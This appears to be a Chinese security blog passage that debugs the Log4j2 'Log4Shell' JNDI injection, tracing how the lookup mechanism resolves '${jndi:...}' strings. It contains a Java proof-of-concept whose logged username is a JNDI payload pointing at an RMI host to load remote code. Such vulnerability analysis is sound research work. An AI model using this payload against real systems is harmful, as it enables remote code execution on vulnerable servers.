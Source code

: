 ```java  
    
public class log4j2EXP {    
    public static void main(String[] args) {    
        Logger logger = LogManager.getLogger(LongFunction.class);    
    
        String username = &#34;${jndi:rmi://192.168.2.1:1099/ln5ex5}&#34;;    
    
        logger.info(&#34;User {} login in!&#34;, username);    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051038826.png)
## 0x04 调试分析  
下个断点在`PatternLayout`这个类下的`toSerializable()`方法。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051055479.png)
往下走，是一个循环，遍历`formatters`一段段拼接输出的内容，  
两个传进去进行处理的变量一个是`event`，也就是我们`log4j2`需要来进行日志打印的内容；另外一个`buffer`，我们会把打印出来的东西写进`buffer`。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051059615.png)
跟进`format()`方法，这个`format()`方法可以当作是处理字符串的一个方法。  
因为这是一个循环遍历`formatters`的，中间会做很多数据处理的工作，有一个地方很重要，当`i=7`的时候进入到了另一个`format`处理方法，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051103897.png)
进入到这个`format()`方法里面后，先判断是否是`Log4j2`的`lookups`功能。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051107227.png)
继续往下走，会遍历`workingBuilder`来进行判断；如果`workingBuilder`中存在`${`，那么就会取出从`$`开始直到最后的字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051110674.png)
`workingBuilder`的内容如下，其实结构也比较清晰方法名，日志级别，当前类名，然后就是`payload`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051112380.png)
上图的`value`就是我们输入的pyaload`${jndi:rmi://192.168.2.1:1099}`  
跟进`replace()`方法，`replace()`方法里面调用了`substitute()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051114810.png)
进入到这里  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051115525.png)
继续往下走，直到进入到`while`循环里面，在`while`循环中，会对字符串进行逐字匹配`${`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051117586.png)
然后进行循环读取，直到读取到`}`并获取其坐标，然后将`${}`中间的内容取出来，然后又会调用`this.subtitute`来处理  
运行`subtitute`的时候，由于已经没有了`${}`所以，直接来到了下面，将`varName`作为变量传入`resolveVariable`函数  
varName 就是为`${}`中的值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051125036.png)
可以猜测`resolver`解析时支持的关键词有`[date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j]`，而我们这里利用的`jndi:xxx`后续就会用到`JndiLookup`这个解析器  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051127589.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051127419.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051129666.png)
这里看到`resolveVariable()`方法里面是调用了`lookup()`方法，这个`lookup()`方法也就是`jndi`里面原生的方法，在我们让`jndi`去调用`ldap`服务的时候，是调用原生的`lookup()`方法的，是存在漏洞的。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408051131494.png)
这里就是常规的jndi注入点，会进行命令执行  
### 总结  
1、先判断内容是否有`${}`，然后截取`${}`中的内容，得到恶意payload jndi:xxx  
2、使用:分割payload，通过前缀来判断使用何种解析器去`lookup`  
3、支持的前缀包括`date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j`  